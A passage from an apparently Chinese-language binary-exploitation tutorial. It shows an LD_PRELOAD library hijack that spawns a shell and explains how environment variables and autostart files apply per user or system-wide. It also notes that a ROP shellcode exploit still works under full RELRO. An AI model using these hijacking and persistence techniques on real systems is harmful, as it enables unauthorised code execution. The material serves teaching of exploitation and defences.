export LD_PRELOAD=/home/test/libtest.so 
./example 
sh-5.2$ whoami
test
sh-5.2$ exit
exit
```

使用环境变量时需要注意它的有效范围，通过`export`声明的环境变量只对当前Shell有效。比如上面的示例，只要新打开一个Shell，再运行`./example`就会发现它是会调用正确的`printf`函数。

将`export`声明的环境变量放入用户目录下`~`的`.bashrc`和`.bash_profile`时，也只能对对应用户的Shell生效，这是因为用户每打开一个Shell都会运行上面的文件，这样对应用户的Shell环境变量就一定会声明。Linux下通常会都会使用用户目录下`~`区分不同用户的配置，它都会作为隐藏目录`.xxx`存在，比如VIM的编辑信息`.viminfo`，用户登录时的自动启动程序`.config/autostart/`，以及设置信息`.config/dconf/user`（设置程序的信息会以数据库的形式保存）等等。

想要声明的环境变量永久生效时，则应该借助Linux通用的配置文件目录`/etc`中的`profile`文件，这样因为`/etc`下面设置是对整个系统生效的。比如上方提到的自动启动程序，也可也通过`/etc/xdg/autostart`目录设置所有用户都需要的自动启动程序。

## 信息泄露

通过将`PWN入门-4-大闹ASLR`中的示例程序添加`-z relro -z now`的链接选项，再次运行exploit，就会发现仍然是可以正常获取到Shell的。

这是当然的，毕竟原本也没有去改写`.got.plt`表，而是借助函数的返回逻辑构造ROP，运行栈上的Shellcode。

关于如何利用格式化字符串漏洞进行绕过的方式，`PWN入门-4-大闹ASLR`中已经进行过描述，在此就不过多赘述了。
